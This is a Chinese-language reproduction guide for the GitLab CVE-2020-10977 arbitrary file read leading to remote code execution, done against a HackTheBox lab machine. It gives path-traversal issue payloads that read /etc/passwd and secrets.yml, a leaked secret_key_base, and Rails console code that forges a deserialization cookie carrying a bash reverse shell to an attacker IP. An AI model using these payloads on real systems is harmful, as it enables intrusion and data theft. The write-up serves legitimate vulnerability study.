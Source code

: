 # 

# GitLab 任意文件读取导致RCE CVE-2020-10977

## 漏洞描述

GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。

参考链接：

- [Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)
- [CVE-2020-10977-Gitlab CE/EE 任意文件读取导致远程命令执行漏洞](https://juejin.cn/post/6916343939649765389)

## 漏洞影响

```
GitLab GitLab EE >=8.5，<=12.9
GitLab GitLab CE >=8.5，<=12.9
```

## 漏洞复现

### 环境安装

```
yum -y install policycoreutils openssh-server openssh-clients postfix
```

分配给虚拟机的物理内存最好是4G。

下载gitlab安装包

- CE下载地址：https://packages.gitlab.com/gitlab/gitlab-ce
- EE下载地址：https://packages.gitlab.com/gitlab/gitlab-ee

安装

```
yum -y install ./gitlab......12_8.1.rpm
```

修改监听端口

```
vim /etc/gitlab/gitlab.rb

external_url 'http://localhost:8888'
```

重置和重启

```
gitlab-ctl reconfigure

gitlab-ctl restart
```

第一次进入会提示重置root密码

### 任意文件读取漏洞复现

创建两个项目（test1 和 test2）

![20210309-08:24:52-_By9fIt_O36viF](images/20210309-082452-_By9fIt_O36viF.png)

![20210309-08:26:10-_T98qwn_mogzsu](images/20210309-082610-_T98qwn_mogzsu.png)

在test1中新建一个issue。

内容为：

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

![20210309-08:27:10-_HGh3yK_MV8ygY](images/20210309-082710-_HGh3yK_MV8ygY.png)



创建好后，将这个issue移动到test2。

![20210309-08:27:38-_Be3jaU_f9Ff6H](images/20210309-082738-_Be3jaU_f9Ff6H.png)

如果漏洞存在，并且文件有可读权限，就会变成一个链接。因为/etc/passwd被复制到了 `/var/opt/gitlab/gitlab-rails/uploads/@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/ed7e8cddbc49e3746e0b9974b5393d79/passwd`

![20210309-08:28:08-_lHi6lY_aM20WQ](images/20210309-082808-_lHi6lY_aM20WQ.png)

![20210309-08:47:53-_ZpR5vy_FDXJZL](images/20210309-084753-_ZpR5vy_FDXJZL.png)

### RCE漏洞复现

根据报告[Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)内容，需要修改cookie，并且读取目标机器上的secret.yaml，并在本地搭建一个gitlab，将本地的gitlab环境的secret.yaml替换为目标机器上的secret.yaml，然后用gitlab的工具来生成cookie，最后携带这段cookie直接请求目标gitlab环境即可。

这里我受害机环境使用的是HackTheBox靶机[Laboratory](https://www.hackthebox.eu/home/machines/profile/298)

步骤1 利用LFI漏洞先读取secrets.yaml，来获取secret_key_base字段。

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```

![20210309-08:54:20-_VKsHlY_bljjkV](images/20210309-085420-_VKsHlY_bljjkV.png)

![20210309-08:56:00-_JQy17p_AgTtwS](images/20210309-085600-_JQy17p_AgTtwS.png)

需要将本地的gitlab的secrets.yaml的secret_key_base字段替换为受害机的。

```
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

![20210309-09:06:32-_ZQ8xH0_8WVpIV](images/20210309-090632-_ZQ8xH0_8WVpIV.png)

进入rails console：

```
gitlab-rails console 
```

使用gitlab-rails console执行以下命令，在获取到cookie之前，这些命令会在本机执行一次，所以在拿到cookie之后再监听端口。

```
request = ActionDispatch::Request.new(Rails.application.env_config)

request.env["action_dispatch.cookies_serializer"] = :marshal

cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.248.245.171/9999 0>&1'` %>")

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)

cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

![20210309-09:19:19-_83wzq5_JvfiZX](images/20210309-091919-_83wzq5_JvfiZX.png)

![20210309-09:19:48-_F09ZMj_JR4sM5](images/20210309-091948-_F09ZMj_JR4sM5.png)
